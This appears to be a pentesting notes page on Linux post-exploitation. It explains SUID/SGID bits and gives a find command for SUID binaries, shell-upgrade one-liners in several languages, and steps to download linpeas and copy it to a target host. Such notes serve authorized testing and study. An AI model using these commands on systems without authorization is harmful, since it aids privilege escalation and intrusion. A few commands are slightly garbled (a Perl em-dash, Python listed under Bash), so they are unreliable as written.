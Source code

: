 # 4 Post Exploit

## SUID bits

![SUID](_suid.png)

| Permission | On Files                                                      | On Directories                                           |
|------------|---------------------------------------------------------------|----------------------------------------------------------|
| SUID Bit   | User executes the file with permissions of the file owner     | -                                                        |
| SGID Bit   | User executes the file with the permission of the group owner | File created in directory gets the same group owner      |
| Sticky Bit | No meaning                                                    | Users are prevented from deleting files from other users |

SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.

To search the a system for these type of files run the following: ```find / -perm -u=s -type f 2>/dev/null```

## Get a TTY Shell

If you get shell without TTY, here are some commands you can try to fix this.

Choose an option based on the what is installed on the system:

- Bash ```echo os.system('/bin/bash')``` or ```/bin/sh -i```
- Python: ``` python -c 'import pty; pty.spawn("/bin/sh")'```
- Perl: ```perl —e 'exec "/bin/sh";'``` or ```perl: exec "/bin/sh";```
- Lua: ```lua: os.execute('/bin/sh')```
- Ruby: ```ruby: exec "/bin/sh"``` or from within Interactive Ruby Shell ```exec "/bin/sh"```
- Vi from within vi ```:!bash``` or  ```:set shell=/bin/bash:shell```
- nmap interactive mode: ```!sh```

## System analysis

### PEASS

<https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite>

#### Linpeas

Download linpeas and copy it target e.g. 10.10.112.131

``` sh
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
scp linpeas.sh user@10.10.112.131:/dev/shm
chmod +x linpeas.sh
./linpeas.sh
```

#### Winpeas

TODO